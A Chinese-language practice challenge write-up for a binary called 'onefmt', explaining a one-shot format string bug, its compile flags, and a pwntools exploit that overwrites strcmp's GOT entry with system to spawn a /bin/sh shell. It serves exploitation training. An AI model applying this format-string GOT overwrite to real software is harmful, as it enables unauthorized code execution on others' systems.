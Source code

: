 # onefmt

格式化字符串利用

仅有一次格式化字符串的机会，需要完成

1. 选择合适函数
1. 改写GOT表
2. 部署getshell字符串（/bin/sh）

## 编译方法

```
gcc onefmt.c -m32 -fstack-protector -z noexecstack -fpie -no-pie -O0 -s -o onefmt
```

说明：

+ `-m32`编译为x86可执行文件。如果在x86环境下编译，无需该参数
+ `-fstack-protector`开启基本的canary防护
+ `-z noexecstack`开启NX
+ `-fpie -no-pie`关闭内存随机化
+ `-O0`关闭代码优化
+ `-s`删除调试符号

## exp

```python
#!/usr/bin/python
# -*- coding: utf8 -*-

from __future__ import print_function
from pwn import *

context.log_level='debug'

elf = ELF('./onefmt')
io = process('./onefmt')

print(hex(elf.got['strcmp']))
print(hex(elf.sym['system']))

p1 = '/bin/sh;'
p2 = '%' + str(0x84 - len(p1)) + 'c%18$hhn'
p2 += '%' + str(0xa0 - 0x84) + 'c%19$hhn'
p2 += '%' + str(0x804 - 0xa0) + 'c%20$hn'
payload = p1 + p2
payload = payload.ljust(56, 'a')
payload += p32(elf.got['strcmp'] + 1)
payload += p32(elf.got['strcmp'])
payload += p32(elf.got['strcmp'] + 2)


io.readuntil(': ')
io.sendline(payload)
io.interactive()

```